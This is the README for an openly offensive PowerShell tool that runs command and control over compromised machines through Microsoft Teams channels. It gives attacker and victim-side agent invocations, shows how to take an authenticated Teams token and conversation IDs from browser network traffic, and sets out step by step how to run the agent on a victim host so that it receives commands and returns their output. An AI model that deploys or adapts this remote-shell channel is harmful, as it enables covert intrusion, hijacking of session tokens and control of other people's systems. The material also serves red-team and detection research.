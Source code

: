 # TeamsCh-Shell

## Overview
This project aims to create a lightweight tool that utilizes the Microsoft Teams Channel API to establish command and control over compromised systems with as few prerequisites as possible. The command and control communication solely abuses the Microsoft Teams Channel API, and no Teams desktop app installation is required.

## Workflow
![image](https://github.com/user-attachments/assets/3773069b-f6eb-4ad1-b089-97b684ade053)



 
## Usage
### Agent
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command
- Outputconversationid  Teams channel conversation ID for the output of the executed command result
- time                  The time interval to check for updated commands in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
### Attacker
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command output
- Outputconversationid  Teams channel conversation ID for the output of the executed command
- time                  The time interval to check for executed command result in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
## Steps to reproduce

1. Create Two Teams Channels:
- One channel is designated for the attacker to transfer system commands that will be received and executed on the victim's host.
> [!NOTE]
> Attacker's Teams token has Read and Write permissions on the channel, while Victim's Teams token has at least Read permission.
- Second channel is used to receive the results of the executed commands from the victim's host, allowing attacker to read the commands results from this channel.
> [!NOTE]  
> Victim's Teams token has Read and Write permissions on the channel, while Attacker's Teams token has at least Read permission.

![image](https://github.com/user-attachments/assets/a4410565-d00c-4bca-aeda-e9cced628dba)
![image](https://github.com/user-attachments/assets/65abccb5-3141-4b8e-acd4-d2d056bb6f37)

2. Extract token and conversationid of Teams Channels:
- Access the Inspect tool and navigate to the Network tab.
- Send a message in the Teams channel and apply a filter for the keyword 'messages' to filter relevant network traffic.
- Extract the Authenticated Teams token and conversationID from the request.
 
![image](https://github.com/user-attachments/assets/b1e06cee-8008-4ca8-bac3-cc8880871c11)

3. Execute TeamsCh-Shell-Attacker.ps1 script on the attacker host and input the command:
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker.ps1 -Outputconversationid "19:952***9e@t***2" -Inputconversationid "19:c92***8a@t***2" -token "eyJ0eXAiOiJ***PykNgVhCEjA"
```
![image](https://github.com/user-attachments/assets/80d95a72-d261-48a7-86f1-e856b57a406c)

4. Execute TeamsCh-Shell-Agent.ps1 script on the victim host:
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent.ps1 -Inputconversationid "19:952***9e@t***2" -Outputconversationid "19:c92***8a@t***2" -token "eyJ0eXAiO***Cu9Jp8l3kF70Ug"
```
![image](https://github.com/user-attachments/assets/61a706f9-5e7e-450f-a038-919ff86c374f)

5. Shell callback Notification
- Power Automate can set up a condition to check for incoming messages to the channel. If incoming messages are sent to the channel, the condition is triggered, and a notification email will be sent to the inputted email address.

![image](https://github.com/user-attachments/assets/8d092800-9509-4a96-bc7c-3be190498ef2)

## Reference

- [convoC2](https://github.com/cxnturi0n/convoC2) by @cxnturi0n
- [Microsoft-Teams-GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) by @bobbyrsec
- [gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs](https://medium.com/@bobbyrsec/gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs-1618c4e64ed7) by @bobbyrsec
